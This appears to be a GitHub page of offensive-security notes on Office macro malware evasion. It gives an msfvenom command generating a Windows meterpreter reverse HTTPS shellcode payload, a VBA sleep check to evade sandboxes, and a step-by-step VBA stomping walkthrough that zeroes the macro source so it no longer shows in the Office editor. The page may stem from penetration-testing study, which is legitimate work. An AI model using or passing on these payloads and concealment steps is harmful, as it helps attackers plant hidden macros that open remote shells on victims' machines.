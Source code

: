 Remember to use 32 bit 
msfvenom -p windows/meterpreter/reverse_https lhost=eth0 lport=443 EXITFUN=thread -f csharp

Basic bypass with encryption,sleep 

added
sleep functions

```
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

    Dim res As Long
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    
    t1 = Now()
    Sleep (2000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 2 Then
        Exit Function
    End If
```

Encrypter from program.cs 
![image](https://github.com/user-attachments/assets/4fe84bce-e469-4c81-9f70-348b58db7ba7)


Not so basic is vba stomping which uses flexhex
replacing with null bytes
what the GUI editor uses to link the displayed macros
remove this link in the editor could hide our macro
from within the graphical Office VBA editor
![image](https://github.com/user-attachments/assets/82a324f9-ea3c-4feb-ac9b-f8119802ab65)

Do this by inserting zero block
![image](https://github.com/user-attachments/assets/028330e6-1303-4001-9054-06bea26c51f9)

![image](https://github.com/user-attachments/assets/5a08bbc1-93f1-45db-ae30-2f948af47a24)

No longer show macro
![image](https://github.com/user-attachments/assets/6ab1c362-7729-448a-9435-0a6ea27ef6bb)

editing pcode
partially-compressed version of the VBA source code 
![image](https://github.com/user-attachments/assets/cb5a3f61-d377-48e5-9334-7a5d3b5df273)

We need to select all attribute vb name to the remaining byte
![image](https://github.com/user-attachments/assets/fbf3b889-afb1-4aaa-b6ba-a39d5f79d9a0)

![image](https://github.com/user-attachments/assets/cc2786f2-fe61-47f8-b3d2-a8d8790e3fe6)

edit these to zero blocks
![image](https://github.com/user-attachments/assets/f38cdcd0-36cf-4978-be5b-ce4224d3e8d6)

alot better now
![image](https://github.com/user-attachments/assets/7eed2a50-c4e2-4876-85dc-32219f80e61a)

original 
![image](https://github.com/user-attachments/assets/fdbf6641-4ef6-41e6-9ea0-96c57bc12c0f)


redoing:
![image](https://github.com/user-attachments/assets/813f0b87-c7e4-47f5-b5de-b87b5b1c1116)

